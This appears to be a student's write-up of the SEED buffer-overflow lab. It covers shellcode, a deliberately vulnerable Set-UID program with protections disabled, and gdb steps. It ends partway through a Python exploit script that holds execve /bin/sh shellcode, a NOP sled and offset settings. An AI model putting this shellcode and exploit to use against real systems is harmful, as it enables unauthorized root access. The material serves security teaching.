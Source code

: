 # Trabalho Realizado Na Semana #5

## Task 1: Getting Familiar with Shellcode
Executing the provided code allowed us to obtain a root shell in both 32-bit and 64-bit environments. This was achieved by copying shellcode to the stack and invoking it through the func() function. To facilitate this, we disabled address randomization and made the system's shell conducive to Set-UID program attacks. This process demonstrates how specific configurations and shellcode manipulation can grant access to a root shell, effectively bypassing security measures.

## Task 2: Understanding the Vulnerable Program
In preparation for task 3, we examined a program with a buffer-overflow vulnerability. It attempts to copy an array of characters, which can be up to 517 bytes, into a buffer with a maximum size of 100 bytes. As the strcpy function doesn't check the buffer limits, it results in a buffer overflow.

To make the program vulnerable, we disabled StackGuard and protections against code execution invoked from the stack. Additionally, we changed the program's owner to root and activated the Set-UID bit. This process involved compiling the program with specific flags, such as disabling StackGuard, and setting it as Set-UID. We also confirmed the permissions to ensure that the Set-UID bit was correctly set. This groundwork was essential for task 3, which required a specific configuration to the attack have success.

## Task 3: Launching Attack on 32-bit Program (Level 1)
First ran the debug version of the program to understand the locations of each variable in the Stack. We used a break point in the function where the overflow is possible to analyze the addresses at that point in the program execution. We proceded


```
$ touch badfile
$ gdb stack-L1-dbg
gdb-peda$ b bof
gdb-peda$ run
gdb-peda$ next
gdb-peda$ p $ebp
gdb-peda$ p &buffer

```
Next, we modified the variables in the Python script. This script is responsible for generating the content that will be written into the target buffer, causing a buffer overflow. We adjusted the offset to 112, which represents the gap between the buffer's beginning and the target return address that we intend to overwrite. We updated the 'ret' value to point to the specific address where we want the program to redirect its execution. The 'ret' value is the data that will replace the memory address specified by the offset. Finally, we synchronized the 'start' value with the location of the shellcode within the buffer, aligning it with the point where the program is expected to jump to.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 350              
```